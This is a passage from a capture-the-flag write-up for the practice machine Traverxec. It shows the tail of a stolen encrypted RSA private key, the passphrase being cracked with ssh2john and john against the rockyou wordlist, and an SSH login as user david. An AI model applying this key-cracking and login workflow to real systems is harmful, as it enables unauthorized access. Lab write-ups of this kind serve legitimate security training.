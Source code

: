 ```bash
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```

Time to break out `john` to crack this encrypted RSA key. Save this key to a file and run `john` like this:

```bash
$ ssh2john.py david_id_rsa > ssh2john.david_id_rsa
$ john ssh2john.david_id_rsa -w=~/tools/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (david_id_rsa)
1g 0:00:00:04 DONE (2020-04-07 08:58) 0.2004g/s 2874Kp/s 2874Kc/s 2874KC/s *7¡Vamos!..clarus
Session completed
```

The cracked password is `hunter`. Let's try to use this key to `ssh` into the machine.

```bash
$ chmod 700 david_id_rsa
$ ssh david@10.10.10.165 -i david_id_rsa
Enter passphrase for key 'david_id_rsa': # hunter
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Tue Apr  7 01:01:28 2020 from 10.10.14.15
david@traverxec:~$ wc user.txt
 1  1 33 user.txt
```
